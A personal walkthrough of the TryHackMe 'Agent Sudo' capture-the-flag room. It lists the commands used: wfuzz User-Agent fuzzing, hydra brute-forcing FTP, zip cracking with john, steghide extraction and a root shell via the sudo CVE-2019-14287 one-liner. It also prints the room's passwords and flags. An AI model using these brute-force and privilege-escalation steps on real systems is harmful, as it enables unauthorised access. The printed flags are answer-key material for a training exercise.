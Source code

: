 # Agent Sudo

I wasn't going to write this one up, but I actually used a broad variety of techniques with it which was fun and worth documenting for future reference.

1. nmap revealed that there were three ports: 21, 22 and 80
2. the website said 'send your agent codename as the user-agent to get redirected to your message' or something

    it took me slightly longer than it should have to work out this would be something in the range of A-Z - the reason being when I tried A, B, C etc in the user agent `curl` was just returning the text again (I used `curl -A "[agent string]" http://[ip address]` for reference)

    I set up burp with a [names list from seclists](https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt) but as it was free, this was taking ages.

    Instead, I explored using wfuzz for this, and it worked! well, didn't get the password, but did figure out how to use wfuzz for this sort of thing rather than the much slower intruder. It ran through all the names in under ten seconds, compared to free burp intruder which was barely halfway through the 'A's:

    `wfuzz -w names.txt -H "User-Agent: FUZZ" --hc 200 http://10.10.21.35/`

    At this point I realised that it would be letters, not names, so I nano'ed up a file with A to Z in it, ran the above using letters.txt, and found a 302 for `C`

    Curling with C was how I worked out where I had gone wrong from before, as the output was no different. I used burp instead, but I could also have used `curl -A "C" -I 10.10.21.35` to retrieve the headers with `-I`. This contained the redirect url: `agent_C_attention.php`

3. On that page was the full name `chris`, and an admonishment about having a weak ftp password. `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.21.35` produced the password `crystal`.

4. On the ftp server were three files, two images and a text file. The text file said the real image was in my directory, presumably over ssh, and that the password was in some of the files (and presumably the username for Agent J, as the message was from Agent C to J)

    I spent a bit messing about with steghide and stegcracker here, thinking I had to bruteforce the jpg password. But stegcracker is a pain to install and very, very slow. Not practical.

    For reference, stegcracker is best installed with pip. Kali by default doesnt have pip so:

    ```
    curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
    python3 get-pip.py
    pip3 install stegcracker
    ```

5. `strings` against the second image, cute-alien.png, showed it contained To_agentR.txt inside it. But it wasn't a steg image. `binwalk cute-alien.png` showed it contained a zip file, so I used `binwalk -e cute-alien.png` to produce four files, including `8702.zip`

6. `zip2john 8702.zip > 8702.john` and `john 8702.john -w /usr/share/wordlists/rockyou.txt` revealed the passphrase to the zip: `alien`. I used this with `7z x 8702.zip` to get the contents, `To_AgentR.txt`

7. To_AgentR.txt said something like "we need to send the message to agent 'QXJlYTUx' as soon as possible!". `echo QXJlYTUx | base64 -d` revealed `Area51`

8. Back to the second of the two images retrieved from ftp, `steghide extract -sf cutie.jpg` with Area51 as the passphrase revealed message.txt, containing text to the effect of "hi james your password is `hackerrules!`"

9. ssh'ing onto the machine as james, the user flag `b03d975e8c92a7c04146cfa7a5a313c7` and an image is in the home dir. I pulled down the image via `scp`, then used `python3 -m http.server` to serve the image so I could view it on my host (I was using kali as an attacker machine, but only over ssh). I downloaded the image, and did a google reverse image search to get the 'name' of the image, specifically `roswell alien autopsy`.

10. sudo -l gave me something I haven't seen before: `(ALL, !root) /bin/bash`. I can use bash with sudo, but not as root. E.g. `sudo -u chris /bin/bash`, which switched me to a chris shell.

    I was a bit stuck at this point. The next step required finding a CVE, but that required finding a flaw. Given the sudo -l above, I knew it was something to do with that, especially given the room name. Ultimately the key was to search on the specific string, picking up a particularly nasty vulnerability from last year.

11. `CVE-2019-14287` targets versions of sudo up to 1.8.27. The version on the machine was (via `sudo -V`): `1.8.21p2`. With this, a simple `sudo -u#-1 /bin/bash` got me a root shell.

    https://www.exploit-db.com/exploits/47502
    
```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```